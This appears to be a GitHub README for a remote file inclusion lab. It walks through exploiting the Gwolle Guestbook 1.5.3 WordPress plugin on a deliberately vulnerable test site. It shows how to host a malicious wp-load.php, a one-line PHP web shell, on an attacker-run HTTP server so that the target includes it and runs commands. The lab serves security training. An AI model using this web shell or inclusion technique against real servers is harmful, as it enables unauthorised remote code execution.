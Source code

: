 # RFI-Remote-file-inclusion-
RFI lab

As the name of this technique suggests, a remote file inclusion occurs when a webserver points at a file, directory, etc. that is not hosted on the webserver itself. We can therefore find ways for it to execute arbitrary code :).

For example, let’s take a look at the following wordpress plugin: gwolle-1.5.3

To exploit the webserver just clone the github directory and follow the installation procedure:

```Bash
git clone https://github.com/vavkamil/dvwp
```
We also have to download the vulnerable version of gwolle which can be found easily in the wordpress plugins directory: https://downloads.wordpress.org/plugin/gwolle-gb.1.5.3.zip

With the help of searchsploit we can try to find an exploit (which there is ofc!)

![gwolle_exploit](https://github.com/user-attachments/assets/2d6b2721-4ba0-4e1b-8e67-0ac219f79262)

Let’s have a look at the exploit.
![url_vuln](https://github.com/user-attachments/assets/bfebf5aa-497f-4648-ac78-d073b66b515f)

The vulnerability lies in parameter which sends a GET request to a file called “wp-load.php”. As the attackers, we can think about creating a malicious “wp-load.php” file stored on a local server:
```Python
# Setting up a simple http server
python3 -m http.server 1234
```

```PHP
# Creating our malicious wp-load.php
<?php
	system($_GET["cmd"]);
?>
```

Now let’s take a look at the server’s response:

![response](https://github.com/user-attachments/assets/15e5a7d0-3af7-48c6-b2c5-44515c31a590)

We have achieved remote code execution on the server!
